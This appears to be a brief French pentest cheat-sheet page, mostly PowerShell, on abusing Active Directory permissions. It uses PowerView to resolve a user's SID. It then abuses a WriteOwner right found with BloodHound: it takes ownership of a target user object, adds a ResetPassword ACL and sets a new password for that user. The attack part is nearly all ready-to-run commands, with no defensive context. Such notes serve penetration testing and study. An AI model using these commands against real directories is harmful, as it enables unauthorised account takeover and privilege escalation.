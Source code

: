 ```yaml
---
public: true # set to true to make the article publishable
---
```


```powershell
# Récupération du SID d'un utilisateur
. .\PowerView.ps1
$targetUser = "tom"
$sid = Convert-NameToSid $targetUser # Powerview
$sid = (Get-ADUser "wley").SID.Value # module Active Directory
```


```title="Réinitialisation du mot de passe AD via appropriation de l'objet utilisateur cible"

# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity Target_AD_User -OwnerIdentity source_user
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity Target_AD_User -PrincipalIdentity source_user -Rights ResetPassword

# Réinitialisation du password
$pass = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
Set-DomainUserPassword -Identity Target_AD_User -Password $pass
```

```
#
```